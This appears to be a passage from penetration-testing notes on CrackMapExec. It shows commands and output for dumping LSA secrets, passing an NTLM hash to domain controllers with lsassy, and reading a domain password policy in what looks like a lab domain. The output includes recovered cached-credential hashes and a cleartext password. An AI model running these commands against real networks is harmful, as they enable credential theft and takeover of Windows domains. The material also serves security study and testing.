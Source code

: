### Dump LSA

```plain
$ cme smb scope.txt -u administrator -p 'Welkom1234' --local-auth --lsa
SMB         10.10.10.116   445    VMV07     [*] Windows Server 2016 Standard 14393 x64 (name:VMV07) (domain:VMV07) (signing:False) (SMBv1:True)
SMB         10.10.10.115   445    VMV06     [*] Windows Server 2016 Standard 14393 x64 (name:VMV06) (domain:VMV06) (signing:False) (SMBv1:True)
SMB         10.10.10.112   445    VMV03     [*] Windows Server 2016 Standard 14393 x64 (name:VMV03) (domain:VMV03) (signing:False) (SMBv1:True)
SMB         10.10.10.116   445    VMV07     [+] VMV07\administrator:Welkom1234 (Pwn3d!)
SMB         10.10.10.115   445    VMV06     [+] VMV06\administrator:Welkom1234 (Pwn3d!)
SMB         10.10.10.116   445    VMV07     offsec.nl/john.do:$DCC2$10240#john.do#fd8d7a9b530fe6978821647e3275a01f
SMB         10.10.10.110   445    VMV01     offsec.nl/john.do:$DCC2$10240#john.do#6d33d010685524188445af2dddda2c66
SMB         10.10.10.110   445    VMV01     offsec.nl/jane.do:$DCC2$10240#jane.do#e12335228dd44cb595e37afb3cb14a0c
```

### Pass the Hash

```plain
$ cme smb 10.10.10.10-16 -u administrator -H 97f2592347d8fbe42be381726ff9ea83 -M lsassy
SMB         10.10.10.16     445    DC2008R2         [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:DC2008R2) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         10.10.10.10     445    DC2016           [*] Windows Server 2016 Standard 14393 x64 (name:DC2016) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         10.10.10.11     445    DC2019           [*] Windows 10.0 Build 17763 x64 (name:DC2019) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.16     445    DC2008R2         [+] offsec.nl\administrator 97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
SMB         10.10.10.10     445    DC2016           [+] offsec.nl\administrator 97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
SMB         10.10.10.11     445    DC2019           [+] offsec.nl\administrator 97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
LSASSY      10.10.10.10     445    DC2016           [*] No credentials found
LSASSY      10.10.10.16     445    DC2008R2         [*] No credentials found
LSASSY      10.10.10.11     445    DC2019           offsec\Administrator 97f2592347d8fbe42be381726ff9ea83
LSASSY      10.10.10.11     445    DC2019           offsec.nl\Administrator Welkom1234
```

### Check password policy

Unauthenticated:

```plain
cme smb 10.10.10.10 --pass-pol
```

Authenticated:

```plain
$ cme smb 10.10.10.10 -u lisboa -p Welkom1234 --pass-pol
SMB         10.10.10.10     445    DC2016           [*] Windows Server 2016 Standard 14393 x64 (name:DC2016) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         10.10.10.10     445    DC2016           [+] offsec.nl\lisboa:Welkom1234
SMB         10.10.10.10     445    DC2016           [+] Dumping password info for domain: offsec
SMB         10.10.10.10     445    DC2016           Minimum password length: 7
SMB         10.10.10.10     445    DC2016           Password history length: 24
SMB         10.10.10.10     445    DC2016           Maximum password age:
SMB         10.10.10.10     445    DC2016
SMB         10.10.10.10     445    DC2016           Password Complexity Flags: 000001
SMB         10.10.10.10     445    DC2016             Domain Refuse Password Change: 0
SMB         10.10.10.10     445    DC2016             Domain Password Store Cleartext: 0
```